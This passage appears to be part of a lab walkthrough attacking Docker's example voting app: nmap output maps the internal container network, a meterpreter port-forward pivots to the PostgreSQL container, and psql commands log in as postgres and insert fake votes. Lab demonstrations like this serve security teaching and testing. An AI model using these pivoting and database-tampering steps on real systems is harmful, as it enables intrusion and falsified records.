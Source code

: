     Nmap scan report for example-voting-app_vote_1.example-voting-app_back-tier (172.19.0.3)
    Host is up (0.00076s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http

    Nmap scan report for example-voting-app_result_1.example-voting-app_back-tier (172.19.0.4)
    Host is up (0.00016s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http

    Nmap scan report for db.example-voting-app_back-tier (172.19.0.5)
    Host is up (0.00035s latency).
    Not shown: 65534 closed ports
    PORT     STATE SERVICE
    5432/tcp open  postgresql

    Nmap scan report for f3309679aa01 (172.19.0.6)
    Host is up (0.000076s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http

    Nmap scan report for example-voting-app_worker_1.example-voting-app_back-tier (172.19.0.7)
    Host is up (0.00034s latency).
    All 65535 scanned ports on example-voting-app_worker_1.example-voting-app_back-tier (172.19.0.7) are closed

    Nmap done: 10 IP addresses (7 hosts up) scanned in 13.16 seconds
    exit
    meterpreter > portfwd add -L 127.0.0.1 -l 8999 -p 5432 -r 172.19.0.5

    On Ubuntu Host:

    root@ubuntu:~# docker exec -it kali-container-id /bin/bash
    root@kali:/# psql -h 127.0.0.1 -p 8999 -U postgres

    postgres-# \dt
         List of relations
    Schema | Name  | Type  |  Owner
    --------+-------+-------+----------
     public | votes | table | postgres
    (1 row)

    postgres=# select * from votes;
       id        | vote 
    -----------------+------
     1ad8bf9e9a778ce | a
    (1 row)

    postgres=# INSERT INTO votes (id, vote) VALUES ('1', 'b'), ('2', 'b'), ('3', 'b'), ('4', 'b');
    INSERT 0 4

    postgres=# select * from votes;
       id        | vote 
    -----------------+------
     1ad8bf9e9a778ce | a
     1               | b
     2               | b
     3               | b
     4               | b
    (5 rows)
